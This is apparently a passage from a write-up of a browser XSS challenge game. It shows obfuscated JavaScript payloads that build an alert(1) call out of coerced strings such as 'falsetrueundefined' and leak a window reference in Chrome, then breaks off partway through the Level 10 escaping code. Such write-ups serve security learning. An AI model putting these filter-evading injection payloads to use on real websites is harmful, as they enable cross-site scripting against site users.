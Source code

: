 ```lang-javascript line-numbers 
_=''+!1+!0+{}[0]+{} = "falsetrueundefined[object Object]"
```

```lang-javascript line-numbers 
");_=''+!1+!0+{}[0]+{};[][_[3]+_[19]+_[6]+_[5]][_[23]+_[19]+_[10]+_[3]+_[5]+_[6]+_[7]+_[23]+_[5]+_[19]+_[6]](_[1]+_[2]+_[4]+_[6]+_[5]+'(1)')()//
```

Now the solution is 144 characters which is still far from the winners:

Next iteratation is to change the base payload for something sorter like **window.alert(1)**
In chrome, we can leak a reference to window with:

```lang-javascript line-numbers 
(0,[]["concat"])()[0]
```

So using the same strings as above we get the following 100 characters solution:

```lang-javascript line-numbers 
");_=""+!1+!0+{}[0]+{};(0,[][_[23]+_[19]+_[10]+_[23]+_[1]+_[5]])()[0][_[1]+_[2]+_[4]+_[6]+_[5]](1)//
```

We are still taking too many chars for defining our alphabet. Here is where [Mario](https://twitter.com/0x6D6172696F) surprised me once again with this tweet:

![](/images/octopress/mariosolution.png)

```lang-javascript line-numbers 
");(_=!1+URL+!0,[][_[8]+_[11]+_[7]+_[8]+_[1]+_[9]])()[0][_[1]+_[2]+_[4]+_[38]+_[9]](1)//
```

Note that he is using **!1+URL+!0** as the alphabet string and it difers for different browsers:

Firefox:
```lang-javascript line-numbers 
_=!1+URL+!0="falsefunction URL() {
    [native code]
}true"
```

Chrome:
```lang-javascript line-numbers 
_=!1+URL+!0="falsefunction URL() { [native code] }true"
```

Other interesting [Mario](https://twitter.com/0x6D6172696F) 's finding is that inside with-statements, almost everything leaks [object Window] for example:

```lang-javascript line-numbers 
with(0) x=[].sort,x()
```

![](/images/octopress/windowleak.png)

# Level 10:
```lang-javascript line-numbers 
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
```